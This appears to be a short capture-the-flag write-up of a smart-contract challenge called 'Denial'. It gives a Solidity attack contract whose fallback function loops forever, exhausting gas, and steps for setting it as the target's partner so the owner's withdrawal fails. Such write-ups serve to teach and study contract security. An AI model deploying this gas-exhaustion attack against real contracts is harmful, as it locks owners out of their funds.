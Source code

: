 # Denial 

Preventing the owner from withdrawing.

We have access to a function that allows us to set a `partner` and a call is made to this partner before the owner transfer is made within the withdraw function.
We will create a helper (attack) contract that simply has a fallback with an infinite loop that will eat all the gas and prevent the transfer.

```shell
// SPDX-License-Identifier: MIT
pragma solidity 0.8.0;

contract DenialAttack {

    fallback() payable external {
        while (true) {

        }
    }
}
```
## Hack:

Step 1:

Depoy this contract

Step2:

Set partner as the new contract address

Step3:

Wait.
